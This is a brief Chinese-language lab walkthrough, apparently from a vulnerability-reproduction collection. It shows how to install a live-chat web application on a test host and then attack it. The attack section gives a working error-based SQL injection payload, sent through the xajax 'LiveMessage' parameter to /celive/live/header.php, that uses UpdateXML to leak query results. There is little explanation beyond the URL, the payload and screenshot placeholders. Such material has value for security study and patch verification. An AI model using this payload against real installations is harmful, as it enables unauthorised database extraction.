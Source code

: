 # 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)





## 攻击实战
在使用火狐hackbar插件在浏览器输入
```
http://192.168.1.170:7777/celive/live/header.php
```

```
xajax=LiveMessage&xajaxargs[0]=<xjxobj><q><e><k>name</k><v>%27,(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(md5(1))),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)--%20</v></e></q></xjxobj>
```

![image]({path}/3.png)
